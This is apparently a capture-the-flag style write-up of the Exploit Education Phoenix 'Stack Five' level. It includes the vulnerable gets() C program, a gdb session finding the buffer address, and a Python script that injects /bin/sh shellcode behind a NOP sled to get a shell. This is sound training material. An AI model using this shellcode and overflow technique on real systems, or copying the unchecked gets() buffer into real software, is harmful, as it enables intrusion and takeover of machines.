 ```yaml
---
title: " Exploit Education | Phoenix | Stack Five"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

Here we don't have any function to jump to but we have a buffer large enough to fit a shellcode.

The idea is to put our shellcode in **buffer** and return execution to it.

So we have to enter: (shellcode + junk to fill the buffer + 8 bytes for RBP + RIP with the address of the buffer).

When dealing with shellcode it's a good idea to unset some environment variables that gdb adds them to jump to the right address.

```
$ gdb -q /opt/phoenix/amd64/stack-five
Reading symbols from /opt/phoenix/amd64/stack-five...(no debugging symbols found)...done.

gef➤  unset env LINES
gef➤  unset env COLUMNS
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    
```

Buffer size if 0x80 = 128 bytes.

Now we put a breakpoint at **gets** function to get the address of buffer.

```
gef➤  b *0x000000000040059c
Breakpoint 1 at 0x40059c

gef➤  r
Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x000000000040059c in start_level ()

gef➤  print $rbp-0x80
$1 = (void *) 0x7fffffffe5d0
```

Buffer address at 0x7fffffffe5d0.

Now we have all the pieces to write the exploit.

You can find a lot of shellcode at **http://shell-storm.org/shellcode**.

It's always good to add some NOP instructions before the shellcode to add some flexibility with the exact address of the buffer (NOP is no operation instruction, it does nothing so it's useful to fill gaps).

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90'*30			# NOP Sled
buff += shellcode			# shellcode
buff += 'A'* (128 - len(buff))		# junk
buff += 'BBBBBBBB'			# RBP value
buff += p64(0x7fffffffe5d0)		# RIP value (buffer address)

print(buff)
```

Wee need to chain our script with **cat** command to avoid closing the input stream.

```
$ (python solve.py; cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
phoenix-amd64-stack-five
```

